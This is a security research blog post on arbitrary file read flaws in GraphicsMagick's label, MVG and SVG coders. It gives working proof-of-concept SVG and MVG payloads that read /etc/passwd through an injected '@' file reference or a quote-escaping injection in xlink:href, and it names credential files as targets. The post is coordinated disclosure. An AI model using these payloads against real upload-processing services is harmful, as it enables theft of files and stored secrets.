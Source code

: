 # Security of Data processing libraries Part 2


Common feature for modern web applications to save and process user files. It can be a avatar generation, file thumbnails, reports or screenshot generation. Open source data processing libraries are usually used for such purposes. There are number of known vulnerabilities at those libraries that can be used to get access to the sensitive informtation. At this article I'll show you how to get access to arbitary file on vulnerable system and lure process memory into your open arms.

<!--more-->

# Tragick

[ImageTragick](https://imagetragick.com/) - multiple vulnerabilities in ImageMagick. One of the vulnerabilities can lead to remote code execution (RCE) if you process user submitted images. The exploit for this vulnerability is being used in the wild. GraphicsMagick library successfully fixed RCE but what about another vulnerabilities? Let's take a look on exploit.svg used at CVE-2016-3717 and try to convert it with library.

```bash
gm convert exploit.svg output.png
```

```text
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'label:@/etc/passwd'
pop graphic-context
```

Library will return error `Unable to open file` but what if we will change coder to `label`? 

```bash
gm convert label:@/etc/passwd output.png
```

GraphicsMagick returns first line of file: `root:0:0:0:root:/root:/bin/bash`. So vulnerability exists and can be exploited on some coders. Let's take a look on Translate Text function. It have an interesting behavior: If text starts with '@' then try to replace it with the content of the file name which follows. 

```c
char *AmpersandTranslateText(const ImageInfo *image_info,
		Image *image, const char *formatted_text) {
/*
	If text starts with '@' then try to replace it with 
	the content of the file name which follows.
*/
  if ((*formatted_text == '@') && IsAccessible(formatted_text+1))
    {
      text=(char *) FileToBlob(formatted_text+1,&length,&image->exception);
      if (text == (char *) NULL)
        return((char *) NULL);
      TrimStringNewLine(text,length);
    }
  translated_text=TranslateText(image_info,image,text);
  if (text != (char *) formatted_text)
    MagickFreeMemory(text);

  return translated_text;
}
```

To exploit it malicious user shoud find all coders using it. Here we should take a little step back and return to Metadata. Please read [first part](https://d0ge.github.io/data-processing-libraries-part-one/) Translate function requests in attribute text when the blob is not open. This is really gross since it is assumed that the attribute is supplied by the user and the user intends for translation to occur.  However, 'comment' and 'label' attributes may also come from an image file and may contain arbitrary text.  As a crude-workaround, translations are only performed when the blob is not open. Is it secure to check blob state? It was found that SVG coder can be used to exploit it. We will skip a lot of C code and let's take a look on pseudocode:
- XML Parser end work
- CloseBlob(image) 
- MVG delegate start it work
- function SetImageAttribute(image,"comment",svg_info.comment) writes comment и title attributes to image.
- To exploit vulnerability malicious user should convert SVG to GIF, JPEG thumbnails with metadata information.

### Arbitary file read on image metadata
```xml
<?xml version="1.0" standalone="no"?>
<!--@/etc/passwd-->
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg width="1237px" height="1237px" version="1.1" xmlns="http://www.w3.org/2000/svg" xmlns:xlink= " http://www.w3.org/1999/xlink"> <image xlink:href="http://www.google.com/images/branding/googlelogo/2x/googlelogo_color_272x92dp.png" x="0" y="0" height="137px" width="137px"/></svg>
```

Another interesting coder is MVG and image processing function

```c
case 'i':
{
if (LocaleCompare((char *) name,"image") == 0)
  {
  MVGPrintf(svg_info->file,"image Copy %g,%g %g,%g '%s'\n",
          svg_info->bounds.x,svg_info->bounds.y,svg_info->bounds.width,
          svg_info->bounds.height,svg_info->url);
  MVGPrintf(svg_info-&gt;file,"pop graphic-context\n");
  break;
  }
break;
}
```
What if malicious user can inject custom TextPrimitive inside ImagePrimitive at MVG coder. Let's take a look on SVG coder. When it reads `xlink:href` attribute single qout  `'` is not properly escaped and any MVG commands can be injected. Function AnnotateImage(annotate.c) reads text from file with TranslateTextEx that accepts '@' as local file. 
Local file read vulnerability affects GraphicsMagick before 1.3.32. Multiple decoders that may use MVG syntaxis by default. To exploit this vulnerability untrusted user file should be converted to another format with command:

```bash
gm convert exploit.svg output.png
```

### Arbitary file read on SVG coder

```xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN"
  "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg width="1237px" height="1237px" version="1.1"
	xmlns="http://www.w3.org/2000/svg" xmlns:xlink= "http://www.w3.org/1999/xlink">
	<image 
	xlink:href="http://www.google.com/images/branding/googlelogo/2x/googlelogo_color_272x92dp.png' text 128,128 '@/etc/passwd" 
	x="0" y="0" height="137px" width="137px"/>
</svg>
```


# Impact

We are using /etc/passd file for our PoC. The passwd file is not really very sensitive on modern systems. But real malicious user can get access to secrets and credentials stored at configuration files. Passwords are often baked into files such as Mercurial's hgrc file.  X11's .Xauthority file might be useful on an active desktop system.


# Acknowledgement

Thanks ImageMagick and GraphicsMagick teams for the coordination and bug fixing! 

